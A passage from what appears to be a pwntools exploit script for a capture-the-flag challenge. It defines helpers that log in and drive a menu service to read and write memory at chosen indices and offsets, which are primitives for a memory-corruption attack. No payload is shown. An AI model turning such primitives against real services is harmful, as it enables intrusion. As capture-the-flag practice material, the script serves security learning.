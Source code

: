 ```python

r.recvuntil(b'login: ')
r.sendline(b'ctf')
r.recvuntil(b'> ')

def read_fixed(index):
    r.sendline(b'1') # fixed

    r.recvuntil(b'> ')
    r.sendline(b'1')  # read

    r.recvuntil(b'Index: ')
    r.sendline(str(index).encode())

    r.recvuntil(b'Output: ')
    data = r.recvn(0x100)
    r.recvuntil(b'> ')

    r.sendline(b'0')
    r.recvuntil(b'> ')

    return data

def write_fixed(index, data, read_prompt=True):
    check_bytes(data)

    r.sendline(b'1') # fixed

    r.recvuntil(b'> ')
    r.sendline(b'2')  # write

    r.recvuntil(b'Index: ')
    r.sendline(str(index).encode())

    r.recvuntil(b'Input: ')
    if not read_prompt:

        pause()

    r.send(data)
    if len(data) < 0x100:
        r.send(b'\n')

    if read_prompt:
        r.sendline(b'0')
        r.recvuntil(b'> ')

def read_free(offset, size):
    r.sendline(b'2') # free

    r.recvuntil(b'> ')
    r.sendline(b'1')  # read

    r.recvuntil(b'Offset: ')
    r.sendline(str(offset).encode())

    r.recvuntil(b'Size: ')
    r.sendline(str(size).encode())

    r.recvuntil(b'Output: ')
    data = r.recvn(size)
    r.recvuntil(b'> ')

```